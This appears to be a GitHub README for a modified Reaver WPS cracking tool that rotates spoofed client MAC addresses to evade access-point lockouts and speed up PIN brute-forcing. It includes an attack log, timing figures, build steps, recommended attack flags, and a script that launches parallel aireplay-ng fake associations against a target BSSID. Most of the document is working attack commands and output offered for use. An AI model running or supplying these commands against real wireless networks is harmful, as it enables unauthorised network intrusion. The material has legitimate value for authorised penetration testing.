 REAVER WPS WITH MAC CHANGER
==============

REAVER WPS modified version with MAC Address last character changer to speed up the attack.

Well, some times the AP will reject the "EAPOL Request" after a success pin try. I made some tests with simultaneous reaver instances running with different MACs (the -m argument), and when one instance gets "WARNING: Receive timeout occurred", the other gets "Received identity request" and continue the cracking.

The problem of this method is: The reaver tool doesn't support simultaneous instances (ok, I read the FAQ about it). If you run two reaver instances, by example, the two instances will try the same pin at the same time.

I made some changes on the reaver source code. Look the output after my changes:

```
[+] Using MAC BC:99:47:B7:03:E9
[+] Trying pin 00485678
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E8
[+] Trying pin 00495677
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E7 
[+] Trying pin 00505673
...
```

On the first try, reaver is using the client MAC "BC:99:47:B7:03:E9" (it is not a real MAC, I'm just using for the example), on the second, "BC:99:47:B7:03:E8", on the third, "BC:99:47:B7:03:E7". Well, after the use of the MAC "BC:99:47:B7:03:E0", reaver will start again on "BC:99:47:B7:03:E9".

The numbers:

With this method: (13 seconds/pin)
Without this method: (31 seconds/pin)

How to install
==============

Extract the tarball

```bash
    tar -xzvf reaver-1.4-mac-changer.tar.gz
```

Install Required Libraries and Tools

```bash
    sudo apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev
```

Build Reaver

```bash
    cd reaver-1.4-mac-changer
    cd src
    ./configure
    make
```

Install Reaver

```bash
    sudo make install
```

How to use
==============

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF -M
```

or

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer
```

What I recommend:

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer --no-nacks --win7 --no-associate -vv
```

To associate more effectively, I recommend to use aireplay-ng tool. Create a "associate.sh" file, and put this inside:

```bash
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZF  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZE  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZD  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZC  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZB  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZA  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z9  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z8  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z7  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z6  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z5  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z4  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z3  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z2  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z1  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z0  &
```

PS: Change AA:BB:CC:DD:EE:FF to the BSSID and ZZ:ZZ:ZZ:ZZ:ZZ:Z to your MAC (without the last digit).

Before using reaver tool, just type "sh associate.sh". To kill all the aireplay-ng, type "killall aireplay-ng".

If you have success using this method, please, share with us to improve more and more the reaver WPS.

Author
==============

[@gabrielrcouto](http://www.twitter.com/gabrielrcouto)


License
==============

[MIT License](http://zenorocha.mit-license.org/)

<a target='_blank' rel='nofollow' href='https://app.codesponsor.io/link/bvezX9B9cTJTidmcB4iikNff/gabrielrcouto/reaver-wps'>  <img alt='Sponsor' width='888' height='68' src='https://app.codesponsor.io/embed/bvezX9B9cTJTidmcB4iikNff/gabrielrcouto/reaver-wps.svg' /></a>
